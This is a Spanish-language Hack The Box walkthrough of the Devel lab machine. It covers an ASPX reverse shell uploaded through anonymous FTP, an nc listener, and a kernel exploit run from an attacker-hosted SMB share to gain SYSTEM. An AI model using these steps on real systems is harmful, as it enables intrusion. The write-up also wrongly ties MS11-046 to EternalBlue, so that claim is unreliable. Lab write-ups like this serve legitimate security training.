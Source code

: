 ```yaml
---
layout: post
title: Devel
date: 2022-11-18
author: BlackCage
categories: [HackTheBox]
tags: [HTB, FTP, EternalBlue]
---
```


# Devel [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.5 -oG allPorts`
- `nmap -sCV -p21,80 10.10.10.5 -oN targeted`

Vemos que el acceso anónimo por `FTP` está permitido.

### Shell

Inspeccionando la página vemos la página de `IIS 7` por defecto, así que no nos sirve de nada, por lo que pasamos a `FTP`, ya que tenemos entrada anónima permitida.

Cuando nos conectamos por `FTP` vemos dos archivos: `index.htm` y `welcome.png`. Podemos intuir que es el servidor web. Sabiendo que la máquina es `Windows` y que `IIS` (por defecto) no interpreta archivos `PHP` nos vamos a crear una shell en `ASPX`, por lo que buscamos una Shell en [`GitHub`](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) y la utilizamos.

Cambiamos la `IP` y puerto que nos viene en el `script` para que la conexión se redireccione a nuestra máquina, una vez hecho esto nos ponemos en escuha con `NC` por el puerto que hayamos especificado.

- `nc -nlvp 4444`

Bien! Una vez hecho todo esto nos volvemos a conectar por `FTP` y con `put` mandamos la Shell al servidor, de tal manera que si ahora nos vamos a `http://10.10.10.5/shell.aspx` deberíamos recibir una conexión.

Bien! Ya estamos en la máquina como `web`!

### Subida de privilegios

Ya tenemos acceso a la máquina, pero queremos ser `NT Authority\System`, así que lo
primero que haré será enumerar la versión de `Windows` con `systeminfo`. Vemos que es `Windows 7`, por lo que nos disponemos a buscar vulnerabilidades y tras un rato vemos que es vulnerable a `EternalBlue`, nos encontramos con un ejecutable llamado [`MS11-046.exe`](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe).

Una vez descargado el archivo en nueastra máquina nos montaremos un servidor `SMB` para así poder ejecutar el archivo en la máquina víctima, así que hacemos lo siguiente:

- `smbserver.py black .`

Una vez tengamos el servidor montado tenemos que ejecutar el archivo en la máquina, para eso haremos lo siguiente:

```
c:\Windows\Microsoft.NET\Framework>\\10.10.14.15\share\MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

Bien! Tras esperar unos segundos vemos que nos hemos convertido en `NT Authority\System`!

Enhorabuena! Ya somos administradores de la máquina de una manera muy fácil!